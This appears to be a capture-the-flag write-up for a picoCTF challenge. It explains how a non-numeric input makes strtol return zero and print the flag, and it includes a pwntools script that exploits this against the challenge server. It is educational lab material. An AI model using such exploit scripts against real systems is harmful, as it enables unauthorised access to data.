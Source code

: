 I started off by hunting down where the flag was being outputted in the source
code and quickly identified it to be in the `data_read` function which gets
invoked when you send through `2` to the interactive menu:

```c
if ((entry_number = strtol(entry, NULL, 10)) == 0) {
    puts(flag);
    fseek(stdin, 0, SEEK_END);
    exit(0);
}
```

The goal, it seems, is to get the condition to pass. To accomplish this, we must
get `strtol(entry, NULL, 10)` to return `0` , thereby causing `((entry_number = 0) == 0)`

to return evaluate to `true` and proceed to dump the flag.

The crucial observation to make is that we get to control the value of `entry`

in `data_read` via the following line:

```c
r = tgetinput(entry, 4);  // 1. Reads input string into `entry`.
```

If we can send in a non-numeric input like "a", then this will result in 
`strtol(entry, NULL, 10)` returning `0` , which is what we want to achieve.

Before we can even invoke `data_read` however, it seems that there must exist
data in the 'database'. To get past this is straightforward &mdash; we just have
to invoke `data_write` first with any non-empty valid input, and then we'll be
able to invoke `data_read` right after and send in "a" to leak the flag. 
The following Python script executes this idea and obtains the flag for us.

```python
from pwn import *

context.log_level = "critical"

def solve():
    io = remote("saturn.picoctf.net", 55825)

    # Invoke `data_write`:
    io.sendline("1".encode())
    io.sendline("a".encode())   # Please enter your data:
    io.sendline("1".encode())   # Please enter the length of your data:

    # Invoke `data_read`:
    io.sendline("2".encode())
    io.sendline("a".encode())   # Please enter the entry number of your data:

    # Extract the leaked flag.
    output = io.recvrepeat(1)
    print(output)

    io.close()

solve()
```
